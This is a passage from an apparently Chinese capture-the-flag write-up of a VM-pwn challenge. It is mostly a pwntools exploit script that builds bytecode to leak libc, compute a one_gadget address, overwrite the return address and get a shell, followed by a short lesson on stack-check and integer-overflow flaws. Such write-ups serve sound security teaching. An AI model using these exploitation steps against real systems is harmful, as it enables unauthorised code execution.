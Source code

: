```python
payload += mov(0, 0xF9)			# bypass the check by making it nagative

payload += movl(0, 0x010F)
payload += mov(0, 0xF6)
payload += pop(0)				# HIGH WORD of __libc_start_main
payload += pop(1)				# MIDDLE WORD of __libc_start_main
payload += pop(2)				# LOW WORD of __libc_start_main

payload += movl(3, 243)
payload += sub(2, 2, 3)			# this step may fail due to the ignorance of borrowed bit, but in 1/16 to fail
# __libc_start_main got

payload += movl(3, 0x3FC0)		# this step may also fail due to same reason, 1/4 to fail until now
payload += sub(2, 2, 3)
payload += movl(3, 0x2)
payload += sub(1, 1, 3)
# libc load address got

payload += movl(3, 0x3B31)
payload += add(2, 2, 3)
payload += movl(3, 0xE)
payload += add(1, 1, 3)
# one_gadget address got

payload += mov(0, 3)
payload += mov(2, 0)
payload += push(0, 0)
payload += mov(1, 0)
payload += push(0, 0)
payload += mov(3, 0)
payload += push(0, 0)
# write one_gadget address to return_addr

payload = payload.ljust(0x100, b'\x00')
payload += b'\n'

# for c in payload:
# 	print('%02x' % c, end=' ')

io.sendlineafter(b'[+] Welcome to MVA, input your code now :', payload)

io.interactive()
```

![](3.png)


当shell拿到之后，我们发现这种题目其实并不难，只要计算一下地址然后写入就行了。就是分析代码比较麻烦，需要明确每一种指令分别代表什么含义，找到里面的漏洞进而思考如何getshell。从这道题可以看出，vm-pwn题中最为致命的就是堆栈检查不严格，可能会产生任意地址读写漏洞，还有整型溢出问题也值得关注。
